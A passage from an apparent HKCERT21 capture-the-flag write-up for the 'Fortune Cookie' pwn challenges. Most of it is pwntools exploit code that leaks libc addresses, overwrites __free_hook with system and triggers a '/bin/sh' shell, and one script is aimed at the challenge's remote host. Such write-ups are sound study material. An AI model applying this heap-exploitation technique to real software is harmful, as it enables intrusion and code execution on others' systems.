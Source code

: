 ```python=
    p.sendlineafter(">", '3')
    p.sendlineafter("Which cookie?", str(idx))
    p.sendafter("New Message:", data)
def show(idx):
    p.sendlineafter(">", '4')
    p.sendlineafter("Which cookie?", str(idx))

#print(p.recvline())
show(-11)
p.recv(7)
leak = u64(p.recv(6).ljust(8, b'\x00'))
info(f"leak: {hex(leak)}")
for i in range(27):
    create(0x88, b"/bin/sh\x00")

target = leak + 0x80
edit(-11, p64(target))
edit(-11, p64(target-0x68))
show(5)
p.recv(8)
#input()
libc_base = u64(p.recv(6).ljust(8, b'\x00')) - 0x3c5620
info(f"libc_base: {hex(libc_base)}")
free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']

edit(-11, p64(free_hook))
edit(5, p64(system))
eat()


p.interactive()
```

## Fortune Cookie 2
This challenge has the source as Fortune Cookie 1
So I used the same exploit script with a little change related to the different of libc version.

Full exploit script:
```python=
from pwn import *

TARGET = './chall'
HOST = 'chalp.hkcert21.pwnable.hk'
PORT = 38231
context.arch = 'amd64' # i386/amd64
#context.log_level = 'debug'
elf = ELF(TARGET)

if len(sys.argv) > 1 and sys.argv[1] == 'remote':
    p = remote(HOST, PORT)
    libc = ELF("./libc-2.27.so")
else:
    p = process(TARGET ,env = {"LD_PRELOAD": "./libc-2.27.so"})
    libc = elf.libc
    gdbscript = ''''''
    if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
       gdb.attach(p, gdbscript=gdbscript)

#---

def eat():
    p.sendlineafter(">", '1')
```